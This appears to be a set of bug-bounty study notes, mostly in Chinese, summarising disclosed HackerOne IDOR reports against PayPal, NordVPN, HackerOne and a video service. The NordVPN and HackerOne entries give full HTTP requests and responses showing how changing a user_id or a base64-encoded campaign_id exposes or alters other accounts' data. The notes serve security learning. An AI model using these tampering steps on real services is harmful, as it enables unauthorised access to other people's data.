 ## [IDOR to add secondary users in www.paypal.com/businessmanage/users/api/v1/users](https://hackerone.com/reports/415081)
#idor 
### Step
1. PayPal企业帐户允许帐户所有者创建多个二级用户，并为其员工分配特定权限。
2. 使企业帐户所有者可以从其他帐户分配次要用户
3. 新的次要用户将被授予对登录的访问，从而允许对该单个用户登录的功能的未授权访问.
4. 10500$💵

## [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577)
#idor 

### Step
1. 请求包
```
POST /api/v1/orders HTTP/1.1 
Host: join.nordvpn.com 
Accept: application/json 
Accept-Language: en-US,en;q=0.5 
Content-Type: application/json 
Content-Length: 179 
DNT: 1 
Connection: close

{  
    "payment":{  
        "provider_method_account":"6xdxdd",  
        "parameters":{  
  
        }  
    },  
    "action":"order",  
    "plan_id":653,  
    "user_id":20027039,  
    "tax_country_code":"TW",  
    "payment_retry":0,  
    "is_installment":false  
}
```
2. 响应体
```
{  
    "id":42615458,  
    "user_id":20027039,  
    "confirmation":{  
        "id":23093398,  
        "created_at":"2019-12-04 17:01:35",  
        "updated_at":"2019-12-04 17:01:35",  
        "type":"redirect_post",  
        "value":"{"url":"https:\/\/www.coinpayments.net\/index.php","parameters":{"cmd":"_pay","reset":1,"email":"█████","merchant":"e64a9629f9a68cdeab5d0edd21b068d3","currency":"USD","amountf":125.64,"item_name":"VPN order","invoice":"49476958","success_url":"https:\/\/join.nordvpn.com\/payments\/callback\/264cae0b89e44a7bd263431b68d1122d","cancel_url":"https:\/\/join.nordvpn.com\/order\/error\/?error_alert=payment&eu=1","want_shipping":0}}"  
    }  
}
```
3. 更改请求包userid ，得到的响应体,泄露铭感数据
```
{  
    "id":42616142,  
    "user_id":89495247,  
    "confirmation":{  
        "id":23093800,  
        "created_at":"2019-12-04 17:16:48",  
        "updated_at":"2019-12-04 17:16:48",  
        "type":"redirect_post",  
        "value":"{"url":"https:\/\/www.coinpayments.net\/index.php","parameters":{"cmd":"_pay","reset":1,"email":"hackerhacker@test.pl","merchant":"e64a9629f9a68cdeab5d0edd21b068d3","currency":"USD","amountf":125.64,"item_name":"VPN order","invoice":"49478089","success_url":"https:\/\/join.nordvpn.com\/payments\/callback\/4513bd083a97e1b5c23c69096d89ac80","cancel_url":"https:\/\/join.nordvpn.com\/order\/error\/?error_alert=payment&eu=0","want_shipping":0}}"  
    }  
}
```
4. 1000$💵

## [Insecure Direct Object Reference (IDOR) - Delete Campaigns](https://hackerone.com/reports/1969141)
### Step
1. 请求包,关注点campaign_id
```
POST /graphql HTTP/2
Host: hackerone.com
Cookie: yourcookie
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/organizations/opensea_demo/campaigns/242/edit
Content-Type: application/json
X-Csrf-Token: ███
X-Product-Area: campaigns
X-Product-Feature: edit
X-Datadog-Origin: rum
X-Datadog-Parent-Id: 9027318766950450042
X-Datadog-Sampling-Priority: 1
X-Datadog-Trace-Id: 87799383677632658
Content-Length: 851
Origin: https://hackerone.com
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{  
    "operationName":"UpdateCampaign",  
    "variables":{  
        "product_area":"campaigns",  
        "product_feature":"edit",  
        "input":{  
            "campaign_id":"Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA==",  
            "team_id":"Z2lkOi8vaGFja2Vyb25lL0VuZ2FnZW1lbnRzOjpCdWdCb3VudHlQcm9ncmFtLzU3MzI4",  
            "bounty_table_row_id":"Z2lkOi8vaGFja2Vyb25lL0JvdW50eVRhYmxlUm93LzEwODM2",  
            "start_date":"2023-05-05T09:00:00Z",  
            "end_date":"2023-05-08T05:00:00Z",  
            "critical":3,  
            "high":2,  
            "medium":1.5,  
            "low":1.5,  
            "structured_scope_ids":[  
  
            ],  
            "researchers_information":"ccccccccccccccc"  
        }  
    },  
    "query":"mutation UpdateCampaign($input: UpdateCampaignInput!) {   updateCampaign(input: $input) {     was_successful     errors {       edges {         node {           id           type           field           message           __typename         }         __typename       }       __typename     }     __typename   } } "  
}

```
2. base64解码campaign_id ，得到**gid://hackerone/Campaign/244**
3. 更改数字 ，并编码放回包中 ，可更改删除其他公司项目
5. 50$💵

## IDOR 功能点
#idor 
### Step
1. [更改私人视频的密码](https://hackerone.com/reports/681473)1,500$💵
2. 编辑其他视频数据，如标题和描述
3. 通过成功利用IDOR发布私人视频
4. [从图库中删除照片和相册](https://hackerone.com/reports/380410)1,500$💵

## [# PayPal IDOR via billing Agreement Token (closed Informative, payment fraud)](https://medium.com/@h4x0r_dz/paypal-idor-via-billing-agreement-token-closed-informative-payment-fraud-3245202fab38)
